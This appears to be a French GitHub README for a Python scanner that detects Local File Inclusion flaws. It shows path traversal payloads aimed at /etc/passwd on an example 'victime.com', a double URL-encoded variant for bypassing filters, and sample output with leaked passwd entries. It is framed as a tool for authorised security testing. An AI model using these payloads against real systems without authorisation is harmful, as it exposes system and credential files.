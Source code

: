 # 🔍 LFI Scanner by Clyde

Un outil simple en Python pour détecter les vulnérabilités de type **Local File Inclusion (LFI)** sur les applications web. Il utilise des chemins couramment exploités ainsi qu’un double encodage optionnel pour contourner les filtres.

---

## 📌 Fonctionnalités

* Injection automatique de payloads LFI dans un paramètre spécifié.
* Test avec encodage normal et double encodage URL.
* Détection de contenu révélateur (comme `/etc/passwd`, erreurs Apache, etc.).
* Mise en couleur des résultats pour une lecture rapide.

---

## ⚙️ Installation

```bash
git clone https://github.com/clydedc/lfi-scanner.git
cd lfi-scanner
pip install -r requirements.txt
```

> **Note** : Le fichier `requirements.txt` doit contenir :
>
> ```
> requests
> colorama
> ```

---

## 🚀 Utilisation

```bash
python3 scanner.py <URL> <paramètre>
```

### Exemples

```bash
python3 scanner.py https://victime.com/index.php page
```

Cela injectera une série de payloads dans l'URL :

```
https://victime.com/index.php?page=../../../../../../../../etc/passwd
```

et leurs équivalents en **double encodage** :

```
https://victime.com/index.php?page=..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

---

## 🧪 Détails Techniques

* **Payloads inclus** : fichiers Unix/Linux et Windows fréquemment ciblés.
* **Encodages testés** :

  * *Normal* : brut
  * *Double encodé* : utile pour contourner certains filtres de sécurité.
* **Signatures recherchées dans la réponse** :

  * `"root:x"` (Unix passwd)
  * `"127.0.0.1"`, `"[apache"`, `"PATH="`, `"USER="` etc.

---

## 📦 Exemple de sortie

```bash
[+] Starting LFI Scan on https://victime.com/index.php

[*] Testing payload (normal): https://victime.com/index.php?page=../../../../etc/passwd
[+] Possible LFI detected with payload (normal): https://victime.com/index.php?page=../../../../etc/passwd
[+] Snippet:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

---

## 👤 Auteur

**Clyde**
🔗 [GitHub](https://github.com/clydedc)

---

## ⚠️ Disclaimer

> Cet outil est uniquement destiné à des **fins éducatives** et de **tests de sécurité autorisés**.
> L'utilisation non autorisée contre des systèmes tiers est **illégale**.

